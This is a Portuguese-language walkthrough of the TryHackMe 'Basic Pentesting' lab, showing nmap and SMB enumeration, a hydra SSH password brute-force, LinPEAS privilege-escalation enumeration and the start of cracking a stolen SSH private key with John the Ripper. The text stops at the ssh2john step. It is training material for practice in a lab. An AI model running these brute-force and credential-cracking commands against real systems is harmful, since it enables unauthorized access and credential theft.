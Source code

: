 ```yaml
---
title: 'TryHackMe: Basic Pentesting'
author: Kertonli
categories: [TryHackMe]
tags: [Fácil, Nmap, Feroxbuster, Smbclient, Hydra, LinPEAS, SSH file transfer, JohnTheRipper]
image:
  path: assets/images/tryhackme/basicpentesting/room.png
---
```


Olá, Bom dia a todos! Mais um desafio do site tryhackme fresquinho direto do forno para nós completarmos. 

O site está pedindo para nós: "Find the services exposed by the machine" [1], então vamos rodar o nosso famoso NMAP:

``` 
nmap -T4 -sC -sV -Pn -p- 10.10.137.173
```

O site também pergunta: "What is the name of the hidden directory on the web server(enter name without /)?" [2]

Para essa vamos rodar o feroxbuster na porta 80 (webserver), o bom é que o feroxbuster
faz uma busca com recursividade então ele encontra arquivos e diretórios com o comando padrão sem argumento
o problema é que ele faz muito mais requisições que o gobuster por exemplo, logo é mais ruidoso. (https://github.com/epi052/feroxbuster)

![alt text](assets/images/tryhackme/basicpentesting/image1.png)

```
feroxbuster -u http://10.10.137.173/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -r
```

Com feroxbuster conseguimos a resposta para [2] e descobrimos algumas rotas interessantes:

![alt text](assets/images/tryhackme/basicpentesting/image2.png)

![alt text](assets/images/tryhackme/basicpentesting/image3.png)

Ok, só de ler as mensagens já temos uma ideia de que temos que explorar /etc/shadow e provavelmente esses servidores SMB. Vou começar chamando scripts nmap para smb

![alt text](assets/images/tryhackme/basicpentesting/image4.png)

(meu alvo mudou para 10.10.86.35)

```
nmap -p 139,445 --script smb-enum-shares.nse 10.10.86.35
```

Com a saída do nmap podemos acessar usando o usuário guest

```
smbclient //10.10.86.35/Anonymous -U guest
```

Observando o arquivo staff.txt obtivemos dois nomes no arquivo staff.txt: 
```
cat staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Ok agora teoricamente é uma boa tentar fazer um ataque de força bruta pois ja temos dois usuários: jan e kay. Vamos fazer no ssh da porta 22.

```
hydra -l jan -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.86.35 ssh -t 4
```

O código retorna a senha da jan.

Depois de logar com ssh da conta de jan, quero rodar um script de privilege scalation na máquina da vítima. Não adianta servir o script em um servidor http pois wget recebe permission denied. Para transferencia de arquivos usando SSH se usa scp Além disso, vamos colocar o arquivo dentro de dev/shm na vítima para evitar tomarmos permission denied, visto que essa pasta geralmente todos os usuarios tem permissão para escrita e leitura:

```
scp linpeas.sh jan@10.10.16.37:/dev/shm
```

Agora é só executar o script (conectar na máquina com ssh e executar sh linpeas.sh). Ok o comando me retornou uma chave privada dentro da pasta kay (que eu tinha achado antes mas quis seguir o passo a passo do site. Essa é uma chave privada que podemos copiar o conteúdo para nossa máquina e tentar conectar novamente com o login da kay)

```
(na minha máquina)
ssh -i kay_id_rsa kay@10.10.16.37
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'kay_id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "kay_id_rsa": bad permissions
kay@10.10.16.37's password: 
```

Ok o arquivo tem senha, vamos tentar crackeá-lo usando jhon the ripper. Depois de clonar o repositório no meu PC:

```
john/run/ssh2john.py kay_id_rsa > john.txt
```